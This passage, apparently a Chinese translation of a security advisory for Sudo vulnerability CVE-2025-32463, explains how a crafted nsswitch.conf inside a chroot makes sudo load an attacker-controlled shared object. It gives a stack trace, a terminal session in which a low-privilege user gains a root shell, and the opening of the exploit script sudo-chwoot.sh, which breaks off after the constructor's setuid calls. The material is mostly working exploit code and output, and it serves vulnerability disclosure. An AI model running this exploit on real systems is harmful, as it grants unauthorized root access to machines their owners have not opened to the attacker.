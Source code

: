 由于这种行为，任何本地用户都可以诱使 Sudo 加载任意共享对象，从而导致以 root 权限执行任意代码。以下堆栈跟踪（stack trace）展示了 Sudo 加载的恶意共享对象。注意：为简洁起见，已对堆栈跟踪进行了大量编辑。  

```
#0  0x0000763a155db181 in woot () from libnss_/woot1337.so.2
#1  0x0000763a1612271f in call_init
#8  0x0000763a1612a164 in _dl_open (file=&#34;libnss_/woot1337.so.2&#34;, 
#14 0x0000763a15f53a0f in module_load
#15 0x0000763a15f53ee5 in __nss_module_load
#17 0x0000763a15f5460b in __GI___nss_lookup_function
#19 0x0000763a15f50928 in __GI___nss_passwd_lookup2
#20 0x0000763a15f62628 in __getpwnam_r 
#21 0x0000763a15d59ae8 in pam_modutil_getpwnam
#27 0x0000763a15d58d99 in pam_acct_mgmt
#28 0x0000763a1577e491 in sudo_pam_approval
#29 0x0000763a157ce3ef in sudo_auth_approval
#30 check_user.constprop.0
#32 0x0000763a15799143 in sudoers_check_cmnd
#33 sudoers_policy_check
#34 0x00005ba00874b491 in policy_check
#35 main
```

  
要利用该漏洞，我们在 chroot 环境中放置了以下 /etc/nsswitch.conf   
文件。其中 /woot1337   
这个 NSS "源" 会被转换为 libnss  
/woot1337.so.2，这是一个我们可控路径下的共享对象（shared object）。  

```
passwd: /woot1337
```

  
在 Ubuntu 24.04.2 LTS 服务器上执行 PoC（Proof of Concept），使用未定义 Sudo 规则的低权限用户，成功在 chroot 环境外获取 root shell。  

```
lowpriv@prod:~/CVE-2025-32463$ id
uid=1001(lowpriv) gid=1001(lowpriv) groups=1001(lowpriv)
lowpriv@prod:~/CVE-2025-32463$ sudo -l
[sudo] password for lowpriv:
Sorry, user lowpriv may not run sudo on prod.
lowpriv@prod:~/CVE-2025-32463$ ./sudo-chwoot.sh
woot!
root@prod:/# id
uid=0(root) gid=0(root) groups=0(root),1001(lowpriv)
```

  
完整的 sudo-chwoot.sh   
漏洞利用代码（PoC, Proof of Concept）。  

```
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1


cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>


__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
```